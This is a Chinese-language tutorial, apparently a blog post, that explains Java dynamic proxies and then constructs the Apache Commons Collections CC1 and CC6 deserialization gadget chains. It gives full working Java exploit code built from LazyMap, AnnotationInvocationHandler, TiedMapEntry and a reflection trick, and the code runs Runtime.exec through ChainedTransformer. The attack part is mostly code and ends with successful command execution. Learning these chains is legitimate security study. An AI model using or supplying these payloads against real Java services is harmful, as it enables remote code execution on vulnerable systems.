




动态代理
Java动态代理是一种在运行时生成代理对象的机制,它可以在运行时动态地创建一个实现特定接口的代理类,并将所有调用委托给处理器。
在Java中,动态代理由java.lang.reflect包中的Proxy类和InvocationHandler接口提供支持。要创建动态代理,首先必须定义一个实现InvocationHandler接口的类,该接口只有一个方法invoke(Object proxy, Method method, Object[] args),它会在代理对象上调用任何方法时被调用。然后,使用Proxy.newProxyInstance()方法来创建代理对象,该方法需要传递一个ClassLoader对象、一组接口以及一个InvocationHandler对象作为参数。
当代理对象上调用方法时,代理对象将委托给InvocationHandler对象的invoke()方法来处理该方法的调用。在invoke()方法内部,可以根据需要执行其他逻辑,例如记录日志或者进行权限检查,然后再将请求转发给实际的目标对象。这样就可以实现动态代理的功能。
示例代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 import java.lang.reflect.InvocationHandler;import java.lang.reflect.Method;import java.lang.reflect.Proxy;interface Hello { void sayHello () ; } class HelloImpl implements Hello { public void sayHello () { System.out.println("Hello World" ); } } class MyInvocationHandler implements InvocationHandler { private Object target; public MyInvocationHandler (Object target) { this .target = target; } public Object invoke (Object proxy, Method method, Object[] args) throws Throwable { System.out.println("Before Method Invoke" ); Object result = method.invoke(target, args); System.out.println("After Method Invoke" ); return result; } } public class DynamicProxyDemo { public static void main (String[] args) { Hello hello = new HelloImpl (); MyInvocationHandler handler = new MyInvocationHandler (hello); Hello proxy = (Hello) Proxy.newProxyInstance( hello.getClass().getClassLoader(), hello.getClass().getInterfaces(), handler); proxy.sayHello(); } }
输出：
1 2 3 Before Method Invoke Hello World After Method Invoke
由于不论我们调用任何动态代理对象方法都会执行invoke方法,所以为我们的反序列化利用提供了便利
CC1链
我们之前最终的利用链是
AnnotationInvocationHandler.readObject()->AbstractInputCheckedMapDecorator.MapEntry.setValue()->TransformedMap.checkSetValue()->ChainedTransformer.transform()
我们一开始在查找有谁调用了InvokerTransformer.transform()方法的时候找的是TransformedMap的checkSetValue方法,但实际上还有很多其他的调用方法,例如在LazyMap中的get方法也调用了InvokerTransformer.transform()

1 2 3 4 5 6 7 8 9 public Object get (Object key) { if (map.containsKey(key) == false ) { Object value = factory.transform(key); map.put(key, value); return value; } return map.get(key); }
那我们就可以针对这一条链进行尝试
调用了get的方法很多,这里我们发现在AnnotationInvocationHandler的invoke方法里也调用了get方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 public Object invoke (Object proxy, Method method, Object[] args) { String member = method.getName(); Class<?>[] paramTypes = method.getParameterTypes(); if (member.equals("equals" ) && paramTypes.length == 1 && paramTypes[0 ] == Object.class) return equalsImpl(args[0 ]); if (paramTypes.length != 0 ) throw new AssertionError ("Too many parameters for an annotation method" ); switch (member) { case "toString" : return toStringImpl(); case "hashCode" : return hashCodeImpl(); case "annotationType" : return type; } Object result = memberValues.get(member); if (result == null ) throw new IncompleteAnnotationException (type, member); if (result instanceof ExceptionProxy) throw ((ExceptionProxy) result).generateException(); if (result.getClass().isArray() && Array.getLength(result) != 0 ) result = cloneArray(result); return result; }
这里就涉及到了动态加载
于是我们需要创建一个动态代理对象,代码如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 HashMap<Object,Object> map = new HashMap <Object,Object>(); Map lazymap = LazyMap.decorate(map, chainedTransformer);Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" );Constructor constructor = clazz.getDeclaredConstructor(Class.class,Map.class);constructor.setAccessible(true ); InvocationHandler annotationInvocationhandler = (InvocationHandler)constructor.newInstance(Override.class,lazymap);Map mapproxy = (Map) Proxy.newProxyInstance( map.getClass().getClassLoader(), map.getClass().getInterfaces(), annotationInvocationhandler);
创建完了以后,我们得调用动态代理对象的一个方法,在invoke中有两个if方法
1 2 3 4 5 if (member.equals("equals" ) && paramTypes.length == 1 && paramTypes[0 ] == Object.class) return equalsImpl(args[0 ]); if (paramTypes.length != 0 ) throw new AssertionError ("Too many parameters for an annotation method" );
必须使这两个if语句为假,才会执行到get语句那里,所以选择的方法要求不是equal方法,传参还需为空,同时必须在反序列化中被调用,巧合的是AnnotationInvocationHandler中的readObject刚好就存在这样的方法
1 for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
这里就调用了memberValues.entrySet(),所以我们要使memberValues=mapproxy（创建的代理对象）
如下：
1 Object obj = constructor.newInstance(Override.class,mapproxy);
故最后的命令执行代码为：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 Transformer[] Transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" , new Class []{String.class, Class[].class}, new Object []{"getRuntime" , null }), new InvokerTransformer ("invoke" , new Class []{Object.class, Object[].class}, new Object []{null , null }), new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"calc" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (Transformers);HashMap<Object,Object> map = new HashMap <Object,Object>(); Map lazymap = LazyMap.decorate(map, chainedTransformer);Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" );Constructor constructor = clazz.getDeclaredConstructor(Class.class,Map.class);constructor.setAccessible(true ); InvocationHandler annotationInvocationhandler = (InvocationHandler)constructor.newInstance(Override.class,lazymap);Map mapproxy = (Map) Proxy.newProxyInstance( map.getClass().getClassLoader(), map.getClass().getInterfaces(), annotationInvocationhandler); Object obj = constructor.newInstance(Override.class,mapproxy);Serialize(obj); Object objecj = Unserialize("test.ser" );

CC6链
之前的实验一直都是在jdk为8u65的环境下进行的,这是因为Oracle在jdk8u71版本就修改了AnnotationInvocationHandler的readObject方法,不再直接调用memberValues,导致之前的整条链全都行不通了
所以我们要找一条所有jdk版本都可以使用的利用链
之前我们在学URLDNS的时候利用到了HashMap里的readObject方法,这个方法会最终调用key的hashcode方法,而正好有一个TiedMapEntry类中带有hashcode方法,同时这个方法又调用了自己的getValue方法,进而调用了get方法
1 2 3 4 5 6 7 8 9 10 11 12 13 public TiedMapEntry (Map map, Object key) { super (); this .map = map; this .key = key; } public Object getValue () { return map.get(key); } public int hashCode () { Object value = getValue(); return (getKey() == null ? 0 : getKey().hashCode()) ^ (value == null ? 0 : value.hashCode()); }
于是命令执行代码构造如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 Transformer[] Transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" , new Class []{String.class, Class[].class}, new Object []{"getRuntime" , null }), new InvokerTransformer ("invoke" , new Class []{Object.class, Object[].class}, new Object []{null , null }), new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"calc" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (Transformers);HashMap<Object,Object> map = new HashMap <Object,Object>(); Map lazymap = LazyMap.decorate(map, chainedTransformer);TiedMapEntry tiedMapEntry = new TiedMapEntry (lazymap,"13" );HashMap<Object,Object> hashMap=new HashMap <>(); hashMap.put(tiedMapEntry,"123" ); Test.Serialize(hashMap);
但执行的时候会发现直接就调出了计算器,说明整条链还没序列化就跑完了,原理和URLDNS类似,在HashMap的put方法中,已经调用了hashcode方法,所以我们得通过反射来解决这个问题

在put前,我们要让整条链先断开,put完了以后再连上
这里我们选择断开TiedMapEntry到LazyMap的这条链,将tiedMapEntry对象的实例化代码修改为
1 TiedMapEntry tiedMapEntry = new TiedMapEntry (map,"13" );
put完了以后在通过反射修改tiedMapEntry对象的map属性值
1 2 3 4 Class clazz = tiedMapEntry.getClass();Field mapfield = clazz.getDeclaredField("map" );mapfield.setAccessible(true ); mapfield.set(tiedMapEntry,lazymap);
所以整个命令执行代码修改为：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 Transformer[] Transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" , new Class []{String.class, Class[].class}, new Object []{"getRuntime" , null }), new InvokerTransformer ("invoke" , new Class []{Object.class, Object[].class}, new Object []{null , null }), new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"calc" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (Transformers);HashMap<Object,Object> map = new HashMap <Object,Object>(); Map lazymap = LazyMap.decorate(map, chainedTransformer);TiedMapEntry tiedMapEntry = new TiedMapEntry (map,"13" );HashMap<Object,Object> hashMap=new HashMap <>(); hashMap.put(tiedMapEntry,"123" ); Class clazz = tiedMapEntry.getClass();Field mapfield = clazz.getDeclaredField("map" );mapfield.setAccessible(true ); mapfield.set(tiedMapEntry,lazymap); Test.Serialize(hashMap);
反序列化命令执行成功！！！
